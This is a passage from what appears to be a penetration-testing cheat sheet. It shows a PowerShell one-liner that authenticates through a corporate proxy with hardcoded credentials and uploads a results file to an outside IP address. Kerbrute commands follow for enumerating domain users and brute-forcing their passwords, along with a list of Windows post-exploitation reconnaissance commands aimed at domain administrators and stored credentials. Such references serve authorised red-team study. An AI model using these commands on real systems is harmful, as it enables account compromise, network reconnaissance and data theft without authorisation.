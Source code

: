 PowerShell manually set proxy and upload file to remote HTTP server:

```
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential('snovvcrash','Passw0rd!','megacorp.local');$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```



### Unsorted

```
root@kali:$ kerbrute userenum -d MEGACORP.LOCAL --dc 127.0.0.1 /usr/share/seclists/Usernames/Names/names.txt -t 50
root@kali:$ kerbrute bruteuser -d MEGACORP.LOCAL --dc 127.0.0.1 /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt snovvcrash -t 50

PS > systeminfo
PS > whoami /priv (whoami /all)
PS > gci "$env:userprofile" -recurse -force -af |select fullname
PS > net user
PS > net user /domain
PS > net user j.doe /domain
PS > net accounts
PS > net accounts /domain
PS > net localgroup Administrators
PS > net group /domain
PS > net group "Domain admins" /domain
PS > net group "Enterprise admins" /domain
PS > cmdkey /list
PS > wmic product get name
PS > get-process
PS > tasklist /SVC
PS > net start
PS > netstat -ano | findstr LIST
PS > ipconfig /all
PS > route print
PS > dir -force c:\
PS > (wmic os get OSArchitecture)[2]
PS > [Environment]::Is64BitOperatingSystem
PS > $ExecutionContext.SessionState.LanguageMode



[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)